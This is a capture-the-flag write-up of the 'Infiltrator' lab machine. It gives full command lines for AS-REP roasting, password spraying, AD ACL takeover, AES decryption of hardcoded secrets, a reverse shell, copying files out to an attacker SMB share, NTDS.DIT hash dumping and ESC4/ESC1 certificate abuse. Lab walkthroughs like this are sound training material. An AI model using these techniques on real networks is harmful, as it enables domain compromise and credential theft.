

Infiltrator

Infiltrator was an exceptional insane-difficulty Active Directory machine that showcased a complex multi-stage attack chain involving certificate abuse, application exploitation, and advanced persistence techniques. The initial foothold was gained through AS-REP roasting, where kerbrute enumeration revealed that l.clark had the NO-PREAUTH flag set, allowing extraction and cracking of their AS-REP hash to obtain the password "WAT?watismypass!".
The attack progressed through sophisticated Active Directory privilege escalation using Descendant Object Takeover (DoT) attacks. With d.anderson's kerberos ticket (using the same cracked password), I leveraged GenericAll permissions over the Marketing Digital OU to gain FullControl with inheritance, allowing password changes for e.rodriguez. This enabled adding e.rodriguez to the Chiefs Marketing group, which had permissions to reset m.harris's password - a member of the Remote Management Users group.
The pivot point came through exploiting Output Messenger, a corporate chat application running on multiple forwarded ports. Directory traversal attacks revealed credentials in uploaded images, while reverse engineering a .NET application exposed hardcoded AES encryption keys. A custom Python decryption script revealed the winrm_svc service account password, granting access to chat logs via API calls that contained o.martinez's credentials. Network forensics played a crucial role when analyzing PCAP files discovered in o.martinez's profile. Wireshark analysis revealed BitLocker recovery keys and authentication token changes, leading to RDP access as o.martinez with an updated password found in HTTP traffic. This granted access to a BitLocker-protected drive containing critical backup files.
The final escalation involved extracting NTDS.DIT and registry hives from administrator backups, revealing the lan_management service account credentials. This account had permissions to read GMSA passwords for infiltrator_svc$, which had modify rights over certificate templates. By exploiting ESC4 to ESC1 certificate abuse - modifying the Infiltrator_Template to allow UPN specification - I requested an administrator certificate and used it for authentication, achieving full domain compromise and capturing the final flag.
User flag
Nmap scan reveals that this machine is the DC, and that there is a website. I'll have a look at it.
Gaining access to d.anderson
There are a few users listed there. I will take each of those and I'll forge them into an AD format(m.harris for example).
k.turner
a.walker
m.harris
l.clark
e.rodriguez
d.anderson
o.martinez
Running kerbrute to confirm valid users
To confirm whether these users are valid without having a password, I will run kerbrute. It will also grab any AS-REP hashes it finds which I could crack with hashcat.
./kerbrute_linux_amd64 userenum --dc 10.10.11.31 -d infiltrator.htb --hash-file hashout2 /home/kalin/Infiltrator/userlist --downgrade
L.clarke has the NO-PREAUTH flag set, and kerbrute gave back the AS-REP hash. I can now crack it with hashcat.
hashcat -a 0 hashout2 /usr/share/wordlists/rockyou.txt
L.Clarke | WAT?watismypass!
I can confirm that these credentials work by running netexec.
nxc smb 10.10.11.31 -u l.clark -p 'WAT?watismypass!' --users
Besides confirming the credentials, this also uncovered an interesting string within K.turner's description field. I'll save it for later.
Password spray
Since I have two potential passwords now, I'll do some password spraying with netexec.
nxc smb 10.10.11.31 -u userlist -p passlist --continue-on-success
Nothing new, but those restricted accounts interest me. One of them may still have an identical password, but it won't be shown because of the restriction(NTLM auth disabled).
Even though they are restricted, I can still request kerberos tickets with a valid password.
d.anderson | WAT?watismypass!
Bloodhound enumeration
Now would be a good time to utilize bloodhound and get an idea for a possible attack path.
Both D.Anderon and M.Harris are members of the protected users group. This means that NTLM authentication is disabled for them. I'll have to use kerberos tickets if I want to use them.

D.Anderson has GenericAll over the marketing digital OU.
And this OU contains the E.Rodriguez user. This means that D.Anderson can gain FullControl rights over E.Rodriguez via Descendant object Takeover targetting the OU.

E.Rodriguez can add themselves to the chiefs marketing group.
Everyone in that group can change the password of M.Harris.
And M.Harris is in the remote management users group, which usually permits remote connections onto the machine.
From all this, I can devise a plan to get access to the infiltrator machine.
-
Use the D.Anderson kerberos ticket to escalate rights over the OU from GenericAll to FullControl with inheritance.
-
Change password/add shadow credentials to E.Martinez and take over the account.
-
Add E.Rodriguez to the chiefs marketing group.
-
Use E.Rodriguez to change the password of M.Harris.
-
Request a kerberos ticket as M.Harris using the new credentials.
-
Remote into the machine as M.Harris.
Taking over E.Rodriguez via Descendant object Takeover with the OU
I can perform a DoT attack by using impacket-dacledit. I'll write FullControl rights over the OU, adding the inheritance flag to apply the same rights to every object contained within that OU.
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb/d.anderson' -k -no-pass -dc-ip 10.10.11.31
After that, I can change the password of E.Rodriguez with bloodyad.
bloodyAD -d infiltrator.htb -k --dc-ip 10.10.11.31 --host dc01.infiltrator.htb set password e.rodriguez 'WAT?watismypass!'
Changing the password of M.Harris
Now I can take over M.Harris. I'll start off by adding E.Rodriguez to the chiefs marketing group.
bloodyAD -d infiltrator.htb -u e.rodriguez -p 'WAT?watismypass!' --dc-ip 10.10.11.31 --host dc01.infiltrator.htb add groupMember 'Chiefs Marketing' e.rodriguez
After that, I can change the password of M.Harris.
bloodyAD -d infiltrator.htb -u e.rodriguez -p 'WAT?watismypass!' --dc-ip 10.10.11.31 --host dc01.infiltrator.htb set password m.harris 'WAT?watismypass!'
And finally request a ticket.
I'll remote into the machine as M.Harris.
Root flag
Setting up Output Messenger
I found an interesting lead in the programdata directory.
This led me to the download page https://www.outputmessenger.com/. I'll download the client to try and connect to the server(I'm assuming it'll be on the box).
Additionally, I also found a list of ports I should forward here http://support.outputmessenger.com/connect-to-server-from-internet/. I will use chisel for that.
Gaining OM access as M.Harris
After completing the installation and forwarding all the ports (14121-14126), I had a choice between using the app and connecting via the web.
I'll use the web version for now. I will use the credentials of K.Turner, trying the MessengerApp password I've seen earlier in netexec output.
However, there wasn't anything interesting there. I began searching through other ports and found something at port 14126.
Clicking the output links redirects to a 404 page though, so I'll try fuzzing with ffuf to search for anything hidden.
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://127.0.0.1:14126/output/FUZZ
I checked the uploads directory, and followed new directories until I found an image.
http://127.0.0.1:14126/output/uploads/1/wall/940/7c96d28148f90cc4bdf1168f57a13fe9.png
M.Harris | D3v3l0p3r_Pass@1337!
I'm assuming that this will be M.Harris' OM pass, because I've gotten access to their domain account way earlier.
The login worked, and I managed to gain OM access as M.Harris.
I found a conversation between M.Harris and the administrator.

I could not download this program through the web, so I started up the app and went to the same conversation.
I'll download the program. Before that, I need to set a download folder within OM. Its as simple as going to settings -> Other -> Chat -> Change -> Reboot OM.
Analyzing the .NET program

Since this is a .NET program, I'll use ILSpy to analyze it.
I can see two interesting things. Decryptor and LdapAPP classes.

# Decryptor
// Decryptor
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;
public class Decryptor
{
public static string DecryptString(string key, string cipherText)
{
using Aes aes = Aes.Create();
aes.Key = Encoding.UTF8.GetBytes(key);
aes.IV = new byte[16];
ICryptoTransform transform = aes.CreateDecryptor(aes.Key, aes.IV);
using MemoryStream stream = new MemoryStream(Convert.FromBase64String(cipherText));
using CryptoStream stream2 = new CryptoStream(stream, transform, CryptoStreamMode.Read);
using StreamReader streamReader = new StreamReader(stream2);
return streamReader.ReadToEnd();
}
}
# LdapAPP
using System;
using System.DirectoryServices;
internal class LdapApp
{
private static void Main(string[] args)
{
//IL_0129: Unknown result type (might be due to invalid IL or missing references)
//IL_0130: Expected O, but got Unknown
//IL_013c: Unknown result type (might be due to invalid IL or missing references)
//IL_0143: Expected O, but got Unknown
string text = "LDAP://dc01.infiltrator.htb";
string text2 = "";
string text3 = "";
string text4 = "";
string text5 = "winrm_svc";
string cipherText = "TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=";
for (int i = 0; i < args.Length; i += 2)
{
switch (args[i].ToLower())
{
case "-u":
text2 = args[i + 1];
break;
case "-p":
text3 = args[i + 1];
break;
case "-s":
text4 = args[i + 1];
break;
case "-default":
text2 = text5;
text3 = Decryptor.DecryptString("b14ca5898a4e4133bbce2ea2315a1916", cipherText);
break;
default:
Console.WriteLine($"Invalid argument: {args[i]}");
return;
}
}
if (string.IsNullOrEmpty(text2) || string.IsNullOrEmpty(text3) || string.IsNullOrEmpty(text4))
{
Console.WriteLine("Usage: UserExplorer.exe -u <username> -p <password> -s <searchedUsername> [-default]");
Console.WriteLine("To use the default credentials: UserExplorer.exe -default -s userToSearch");
return;
}
try
{
Console.WriteLine("Attempting Service Connection...");
DirectoryEntry val = new DirectoryEntry(text, text2, text3);
try
{
Console.WriteLine("Service Connection Successful.");
DirectorySearcher val2 = new DirectorySearcher(val);
try
{
val2.set_Filter($"(SAMAccountName={text4})");
Console.WriteLine($"Search for {text4} user...");
SearchResult val3 = val2.FindOne();
if (val3 != null)
{
Console.WriteLine("User found. Details:");
DirectoryEntry directoryEntry = val3.GetDirectoryEntry();
Console.WriteLine(string.Format("Name: {0}", directoryEntry.get_Properties().get_Item("cn").get_Value()));
Console.WriteLine(string.Format("EmailID: {0}", directoryEntry.get_Properties().get_Item("mail").get_Value()));
Console.WriteLine(string.Format("Telephone Extension: {0}", directoryEntry.get_Properties().get_Item("telephoneNumber").get_Value()));
Console.WriteLine(string.Format("Department: {0}", directoryEntry.get_Properties().get_Item("department").get_Value()));
Console.WriteLine(string.Format("Job Title: {0}", directoryEntry.get_Properties().get_Item("title").get_Value()));
}
else
{
Console.WriteLine("User not found.");
}
}
finally
{
((IDisposable)val2)?.Dispose();
}
}
finally
{
((IDisposable)val)?.Dispose();
}
}
catch (Exception ex)
{
Console.WriteLine($"An error occurred: {ex.Message}");
}
}
}
I can see an IV of 16(all zeros), and a hardcoded key/ciphertext.
I have the encryption process in front of my eyes. I can craft a script to decrypt the password.
The ciphertext is base64 encoded, so I'll decode it as well within the script.
# Script
import base64
from Crypto.Cipher import AES
def pkcs7_unpad(data):
pad_len = data[-1]
return data[:-pad_len]
def aes_decrypt_base64(cipher_b64: str, key_str: str) -> str:
key_bytes = key_str.encode('utf-8')
iv = bytes(16) # 16 null bytes
cipher_bytes = base64.b64decode(cipher_b64)
cipher = AES.new(key_bytes, AES.MODE_CBC, iv)
plaintext_padded = cipher.decrypt(cipher_bytes)
plaintext = pkcs7_unpad(plaintext_padded)
return plaintext.decode('utf-8')
def double_decrypt(ciphertext, key):
# First pass
first_pass = aes_decrypt_base64(ciphertext, key)
# Second pass
return aes_decrypt_base64(first_pass, key)
if __name__ == "__main__":
key = "b14ca5898a4e4133bbce2ea2315a1916"
cipher_text = "TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE="
decrypted = double_decrypt(cipher_text, key)
print(f"Decrypted password: {decrypted}")
winrm_svc | WinRm@$svc^!^P
I'll login into the app with these credentials.
Reading the chat logs
At this point, I moved to my windows VM because the linux OM client did not seem to work properly.
After some switching back and forth between the two VMs, I managed to connect to the server on my windows VM.
I quickly noticed this new note entry that was not displayed in the linux client.
And I also found this message, which immediately shifts my focus towards getting more information about this group.
Back in the winrm_svc remote shell, I found a few interesting database files.
With something related to the mentioned group within.

I've found a way to retrieve chat logs in the OM online documentation.
https://support.outputmessenger.com/chat-room-api/
Using the API key from earlier, and this string that looks like a roomkey, I should be able to extract the chat history of the chiefs marketing chat, which has the password of O.Martinez inside.
curl -s -k "http://127.0.0.1:14125/api/chatrooms/logs?roomkey=20240220014618@conference.com&fromdate=2024/02/01&todate=2024/09/01" -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" -H "Accept: application/json, text/javascript, */*"
And at the bottom, I can see a credential pair for O.Martinez.
O.Martinez | m@rtinez@1996!
Getting a shell as O.Martinez
These credentials worked for OM.
From the calendar menu, I can set an event. Something like a scheduled task in windows or a cronjob in linux.
I created a .exe reverse shell via msfvenom, and I got it both onto the target machine and my windows VM. They have to be in the exact same location as I'll be setting the application to run locally, which will cause the same app to run on the target.
I didn't logout from OM, which caused a reverse shell connection from my own machine...
After repeating the event setup, I logged out from OM and waited tor a hit.
Analyzing the PCAP file
I found a PCAP file within O.Martinez' user folder.
After transfering it back, I will import the PCAP file into wireshark to analyze it.
I'm searching for interesting things like files, login attempts and unusual protocols being used.
Bitlocker is definitely one of those things. I may be able to export the archive from this PCAP. I'll go to file -> export objects -> HTTP.
I can also see an interesting change_auth_token entry. I'll take a look at it later, as for now I'll grab the bigger BitLocker archive.
It contains an HTML file, but requires a password. I'll use 7z2john to get a crackable hash of the archive, then I will try cracking it with john.

archive | zipper
I extracted the archive, and opened the HTML file in my browser.
It contains a BitLocker recovery key. I'll keep it saved just in case it becomes useful later on.
Now I can switch my focus back to the change_auth_token entry.
I found the related packet rather quickly. I'll get more information by following the TCP stream(right click -> follow TCP stream)
And a password is revealed. I'm assuming that it'll be related to O.Martinez, so I'll confirm it with netexec.

RDP as O.Martinez
I checked a few things, and I found out that O.Martinez can RDP into the machine.
Connecting to a windows machine on linux via RDP is possible, and I'll use xfreerdp for that.
xfreerdp /u:o.martinez /p:'M@rtinez_P@ssw0rd!' /v:10.10.11.31 /d:infiltrator.htb
There is a strict time limit for each session. This could get annoying really quickly.
I found a bitlocker protected E: drive. The recovery key I found earlier will allow me to access this drive.
I got access to the drive, and continued my search.
In the administrator's documents folder, I found this Backup_Credentials.7z archive. I can setup an SMB server on my machine to copy it over.
impacket-smbserver FILESHARE /home/kalin/Infiltrator/share -smb2support -username test -password test - to create the smbserver
net use \\10.10.16.3\FILESHARE /user:test test - to make my smbserver available
copy Backup_Credentials.7z \\10.10.16.3\FILESHARE\Backup_Credentials.7z - to copy the file from the RDP session to my box
Extracting data from the hives and the NTDS.DIT file
This archive was not password protected, and it revealed 3 very valuable files.
I can use the hives and the ntds.dit file with secretsdump to dump the hashes of users.
impacket-secretsdump -system registry/SYSTEM -security registry/SECURITY -ntds 'Active Directory'/ntds.dit LOCAL
However, I could not use this hash to remote as the administrator. I'll use a different tool to get more information out of the ntds.dit file.
https://github.com/xmco/parse_ntds
I cloned the repo and ran this command to dump everything from the file.
python scripts/parse_ntds.py -f ../'Active Directory'/ntds.dit -s ../registry/SYSTEM -v --dump-all
And found something that looks an awful lot like a password.
I'll check these credentials, just like before, with netexec.
lan_managment | l@n_M@an!1331
Taking over the infiltrator_svc$ account

Taking a look back at bloodhound, the newly compromised lan managment account can read the GMSA password of infiltrator_svc$.
And that account is in the domain computers group. Not only that, its description also contains the FQDN of the DC, which is unusual.
I'll read the hash using netexec.
nxc ldap 10.10.11.31 -u lan_managment -p 'l@n_M@an!1331' --gmsa
Abusing ESC4 to ESC1
I began searching by the process of elimination, looking for any interesting attack paths that could lead me further.
The mention of the TPM(Trusted Platform Module) made me think about certificates, so that's what I will check next.
certipy-ad find -enabled -vulnerable -dc-ip 10.10.11.31 -dc-host dc01.infiltrator.htb -target-ip 10.10.11.31 -u 'infiltrator_svc$' -hashes '653b2726881d6e5e9ae3690950f9bcc4'
Infiltrator_svc can modify the template in a way that allow me to specify an UPN for authentication as a different user.
First, I'll modify the template to create ESC1.
certipy-ad template -template 'Infiltrator_Template' -write-default-configuration -dc-ip 10.10.11.31 -dc-host dc01.infiltrator.htb -target-ip 10.10.11.31 -u 'infiltrator_svc$' -hashes '653b2726881d6e5e9ae3690950f9bcc4'
Before requesting, I'll quickly grab the administrator's SID as it will be needed very soon.
certipy-ad account -u 'infiltrator_svc$' -hashes '653b2726881d6e5e9ae3690950f9bcc4' -dc-ip '10.10.11.31' -user 'administrator' read
Now I can request the administrator certificate.
certipy-ad req -u 'infiltrator_svc$@infiltrator.htb' -hashes '653b2726881d6e5e9ae3690950f9bcc4' -dc-ip '10.10.11.31' -target 'dc01.infiltrator.htb' -ca 'infiltrator-DC01-CA' -template 'Infiltrator_Template' -upn 'administrator@infiltrator.htb' -sid 'S-1-5-21-2606098828-3734741516-3625406802-500'

I'll authenticate with the requested certificate to get the administrator's hash.
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.31 -username administrator
Finally, I'll remote into the machine with these credentials.
Rooted!